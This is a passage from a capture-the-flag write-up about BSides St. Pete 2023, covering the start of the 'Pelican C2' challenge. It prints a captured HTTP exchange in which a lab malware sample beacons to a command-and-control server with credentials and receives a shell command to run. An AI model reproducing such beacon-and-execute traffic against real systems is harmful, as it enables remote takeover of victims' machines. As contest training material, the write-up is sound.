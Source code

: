 - BSides ST. Pete was a blast, lot's of different companies and i'm sure tons of great talks, but i was busy competing!
- the CTF was very interesting as it involved many different topics.  

## placement

- we placed first in the ctf finishing with 3666 points!

![](assets/images/2023-09-17-pelican-ctf-2023-writeup-image-2.jpg)

## challenge writeups

- i'll mainly only talk about the challenges i solved and ones that i thought were fun.

### Pelican C2 - User

##### Challenge Description
```
We managed to get our hands on a malware sample being distributed by the Pelicans. We have reason to believe it points to one of their C2 servers. Can you analyze the sample and hack into the server?
```

- we start off the challenge with a zip file that has some "malware", i download this "malware", open up wireshark and run it :D
- from there i can see that it's beaconing out to an ip address with some credentials and recieves a command to run on my machine:

```bash
GET /api/pelican/callback?email=pwn2@bsidesstpete.com&password=c4a6b07beeb6f8fb3dee3a969f5ae HTTP/1.1
Host: 172.17.0.2:1337
Accept: */*

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 18 Sep 2023 01:00:41 GMT
Connection: close
Content-Type: application/json
Content-Length: 53

{"callback":"touch pwned_by_pelican","success":true}
```
